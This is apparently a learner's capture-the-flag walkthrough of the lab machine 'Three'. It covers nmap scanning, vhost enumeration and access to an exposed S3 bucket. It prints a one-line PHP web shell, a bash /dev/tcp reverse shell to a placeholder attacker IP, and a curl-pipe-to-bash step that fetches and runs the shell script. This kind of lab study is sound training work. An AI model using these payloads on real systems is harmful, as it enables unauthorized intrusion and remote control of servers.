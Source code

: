 “Three” Machine 

Pinged to check if its running as usual 

Ran “nmap -p- -sC -sV -min-rate 1000  10.129.227.248”  to see all the service that is running in all the port and set the min-rate to 1000 so that it will run faster 

saw a warning while scanning “Warning: 10.129.227.248 giving up on port because retransmission cap hit (10).” happen because I was using min-rate to send 1000 packets per second to speed it up a bit so nmap gave up on a port  possibly because it had a firewall or the port is not running 

It seems it has a open 22/tcp port which is a Open ssh service and port 80/tcp running a http server and the OS seems to be linux 

tried to access the ssh tried giving passwords like admin, root  but no dice 

open the http ip in the browser noticed routes like “/#contact”  or maybe I am missing something 

had to go through the walkthrough saw that when I submit the contact it requests  to  a php file that doesnt exist it seems 

and there seems to be a email mentioned in the contact page with domain thetoppers.htb, we will trying adding it to the etc/host/ 

now it seems are going to do subdomain enumeration  since gobuster dir doesnt return anything useful we will be looking using vhost 

we run gobuster vhost -w SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb, vhost  to get the websites  in a single ip which might have multiple websites  like different subdomain 


I need to add “— append-domain” too in the gobuster command or else it wont send the domain in the request with the wordlist 

now we need to add the s3.thetoppers.htb which we found while enumerating to the etc/host for resolving 

now we are going to use awscli to connect to the s3 bucket   
now we can see that there is an index.php file in the s3 bucket and also .htaccess which means the apache server is usings s3 as a storage and we can upload a shell.php to the s3 bucket 

we create a shell.php using : echo '<?php system($_GET["cmd"]); ?>' > shell.php, so what system does is to help run commands on the server so since we added this to the s3 bucket now when we pass a command in url by going to the shell directory  it will return the results 

like this : “http://thetoppers.htb/shell.php?cmd=id” if it gives a response we can conclude that we can use reverse shell (now whats that lol - lets see ) 

since we have web shell access we will do reverse shell by opening a port in our server  and then we will make shell.sh file with the command   “bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1”   -i means its interactive terminal 
middle part means to connect to tcp port in the given ipaddress 
>& means all stdout to be redirected  0>&1 all the stdin from also the same place as std out

now we have to execute this the victims server so that we get the access in our ncat server 

to server this shell file we will run a python3 server on the same directory where the shell.sh is to serve the file   then in cmd= we will pass curl%20<our ip>:<python server port number > /shell.sh  | bash  
‘|’ is for piping to output from the first curl command to the bash next the bash gets excecuted   now once thats run, in our ncat server we can see the full shell access and get the flag   

  
  


  
